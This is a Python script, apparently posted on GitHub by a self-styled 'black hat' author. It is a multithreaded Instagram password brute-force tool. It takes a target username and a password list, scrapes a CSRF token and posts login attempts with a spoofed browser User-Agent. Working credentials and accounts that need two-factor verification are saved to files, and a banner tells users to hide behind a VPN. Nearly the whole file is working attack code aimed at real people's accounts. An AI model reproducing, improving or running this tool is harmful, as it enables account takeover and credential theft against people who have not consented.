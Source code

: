 # author : akash black hat hacke
# darkweb pleyer 127.0.0.1
from __future__ import absolute_import
from __future__ import print_function
import requests, sys, threading, time, os, random
from random import randint
from six.moves import input

CheckVersion = str(sys.version)
import re
from datetime import datetime

print('''    
\033[32m██╗███╗   ██╗███████╗████████╗ █████╗                     
██║████╗  ██║██╔════╝╚══██╔══╝██╔══██╗                    
██║██╔██╗ ██║███████╗   ██║   ███████║                    
██║██║╚██╗██║╚════██║   ██║   ██╔══██║                    
██║██║ ╚████║███████║   ██║   ██║  ██║                    
╚═╝╚═╝  ╚═══╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
┌┐ ┬─┐┬ ┬┌┬┐  ┌─┐┌─┐┬─┐┌─┐┌─┐   V1.0
├┴┐├┬┘│ │ │   ├┤ │ │├┬┘│  ├┤   
└─┘┴└─└─┘ ┴   └  └─┘┴└─└─┘└─┘     
\033[38m***\033[31mInstgrame Brute Force Attack \033[38m***
\033[33m*\033[32mDeveloper:AKASH BLACK HAT   \033[33m     *
\033[35m*\033[32mInstagram:akashblackhat    \033[35m      *
\033[31m*\033[32mYouTube  :Technical akash skills \033[31m*
\033[37m*\033[32mPassList :Attack\033[37m                 *
\033[35m**********\033[31m*********\033[33m*********\033[32m*******''')
print('''\033[31mNotice :-> Management depends on vpn software
Please use it before running the tool.\033[32m.''')
class InstaBrute(object):
    def __init__(self):

        try:
            user = input('username : ')
            Combo = input('passList : ')
            print('\n----------------------------')

        except:
            print(' The tool was arrested exit ')
            sys.exit()

        with open(Combo, 'r') as x:
            Combolist = x.read().splitlines()
        thread = []
        self.Coutprox = 0
        for combo in Combolist:
            password = combo.split(':')[0]
            t = threading.Thread(target=self.New_Br, args=(user, password))
            t.start()
            thread.append(t)
            time.sleep(0.9)
        for j in thread:
            j.join()

    def cls(self):
        linux = 'clear'
        windows = 'cls'
        os.system([linux, windows][os.name == 'nt'])

    def New_Br(self, user, pwd):
        link = 'https://www.instagram.com/accounts/login/'
        login_url = 'https://www.instagram.com/accounts/login/ajax/'

        time = int(datetime.now().timestamp())

        payload = {
            'username': user,
            'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{time}:{pwd}',
            'queryParams': {},
            'optIntoOneTap': 'false'
        }

        with requests.Session() as s:
            r = s.get(link)
            csrf = re.findall(r"csrf_token\":\"(.*?)\"", r.text)[0]
            r = s.post(login_url, data=payload, headers={
                "User-Agent": "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36",
                "X-Requested-With": "XMLHttpRequest",
                "Referer": "https://www.instagram.com/accounts/login/",
                "x-csrftoken": csrf
            })
            print(f'{user}:{pwd}\n----------------------------')

            if 'authenticated": true' in r.text:
                print(('' + user + ':' + pwd + ' --> Good hack '))
                with open('good.txt', 'a') as x:
                    x.write(user + ':' + pwd + '\n')
            elif 'two_factor_required' in r.text:
                print(('' + user + ':' + pwd + ' -->  Good It has to be checked '))
                with open('results_NeedVerfiy.txt', 'a') as x:
                    x.write(user + ':' + pwd + '\n')


InstaBrute()